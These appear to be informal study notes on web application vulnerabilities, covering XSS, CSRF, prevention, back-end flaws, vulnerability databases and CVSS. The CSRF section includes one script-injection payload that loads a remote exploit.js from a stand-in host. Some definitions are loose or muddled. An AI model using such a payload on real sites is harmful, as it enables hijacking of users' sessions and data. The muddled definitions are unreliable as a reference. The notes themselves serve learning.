 # 1 - Web Applications

## Front-End Vulnerabilities

[HTML Injection ](1b-owasp-top-10-2021.md#id-3.-injection)

Type of injection where only front-end is affected. This includes web defacing too. I still don't see the exploitability in this.

[XSS](1b-owasp-top-10-2021.md#id-3.-injection)

Cross-site Scripting can be used like HTML Injection but besides DOM manipulation, you can also manipulate unsensitized user input and use Javascript to retrieve user data(whatever you can do with Javascript) We got - Reflected XSS - When result of XSS affects webapp after processing, as in search engines - Stored XSS - Kind of XSS which is retained in a db after reloading webpage - DOM XSS - using Javascript to steal front-end user data prolly

CSRF&#x20;

Cross-site Request Forgery is used to perform API calls and queries, utilizing XSS or HTTP request and response parameters to attack. Also can upload remote code to escalate privileges or do similar stuff. like so: `"><script src=//www.example.com/exploit.js></script>` Although, modern browsers already have anti-CSRF features that prevent them from executing remote codes.

### Prevention

* Sanitization - Removing special characters and non-standard characters from user input before displaying it or storing it.
* Validation - Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)
* Implement a Web Application Firewall or WAF

## [Back End Vulnerabilities](1c-server-side-vulnerabilities/)

1. Broken Access Control / Broken Authentication
2. Malicious file upload - when an attacker can upload malicious script or a file on the server that will not be validated and hence, executed on the server - potentially granting an attacker rce abilities.
3. Command Injection - Allowing an attacker to inject commands in a filename and uploading, or download a faulty plugin that can be utilized to execute commands on it.
4. SQL Injection or SQLi - executing misinterpreted SQL queries on a database and retrieving sensitive data from it.
5. SSRF
6. Access Control
7. Path Traversal

### Public Vulnerabilities

1. [CWE - Common Weakness Enumeration (mitre.org)](https://cwe.mitre.org/)
2. [NVD - Home (nist.gov)](https://nvd.nist.gov/)
3. [Vulnerability & Exploit Database - Rapid7](https://www.rapid7.com/db/)
4. [VULNERABILITY LAB - SECURITY VULNERABILITY RESEARCH LABORATORY - Best Independent Bug Bounty Programs, Responsible Disclosure & Vulnerability Coordination Platform - INDEX (vulnerability-lab.com)](https://www.vulnerability-lab.com/)
5. [Exploit Database - Exploits for Penetration Testers, Researchers, and Ethical Hackers (exploit-db.com)](https://www.exploit-db.com/)

These are just a few examples of Common Vulnerability and Exposure(CVE) databases.

Exploits are usually interesting from score 8-10 or that lead to RCE.

### Common Vulnerability Scoring System (CVSS)

It is an industry standard scoring system for system vulnerability scoring. CVSS uses **Base, Temporal, Environmental** metrics.

The most critical vulnerabilities for back-end components are found in web servers, as they are publicly accessible over the `TCP` protocol. External Web Application vulnerabilities may be exploited to gain access to back-end components.
